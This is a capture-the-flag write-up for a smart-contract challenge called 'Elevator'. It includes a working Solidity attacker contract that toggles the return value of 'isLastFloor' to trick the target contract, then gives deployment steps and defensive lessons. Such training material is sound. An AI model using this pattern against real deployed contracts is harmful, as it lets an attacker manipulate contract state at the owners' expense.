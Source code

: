 # Level 11: Elevator

## Challenge Overview

This challenge is designed to exploit the behavior of interfaces and state changes.  
The goal is to make the `goTo` function in the `Elevator` contract believe it has reached the top floor by manipulating the return value of an external contract’s function.

## Goal

Use an attacker contract to exploit the `isLastFloor` function and trick the `Elevator` contract into reaching the top floor.

## Solution

The `isLastFloor` function in the `Building` interface determines whether the elevator has reached the top floor.  
By creating a malicious contract, you can control the return value of `isLastFloor` to achieve the goal.

### Steps:

#### 1. Deploy an attacker contract with the following code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint _floor) external;
}

contract ElevatorAttack {
    bool public toggle = true;
    IElevator public elevator;

    constructor(address _elevatorAddress) {
        elevator = IElevator(_elevatorAddress);
    }

    function isLastFloor(uint) external returns (bool) {
        toggle = !toggle;
        return toggle;
    }

    function attack() public {
        elevator.goTo(1); // The floor number doesn't matter, pick one
    }
}
```

#### 2. Deploy the `ElevatorAttack` contract and pass the `Elevator` contract’s address as the target.

#### 3. Call the `attack` function with the desired floor:

```solidity
function attack() public {
    elevator.goTo(1); // The floor number doesn't matter, pick one
}
```

#### 4. Verify that the `Elevator` contract now considers itself at the top floor.

---

## Lessons Learned

1. The vulnerability exists because the `Building` interface function can change state between calls.  
   If `isLastFloor()` had been marked `view` or `pure`, this attack wouldn't work.

2. When designing contracts that make multiple calls to external functions,  
   consider whether those functions should maintain consistent return values for the same inputs.

3. Never trust external calls to behave consistently unless they’re properly restricted (e.g., with `view` or `pure` modifiers).

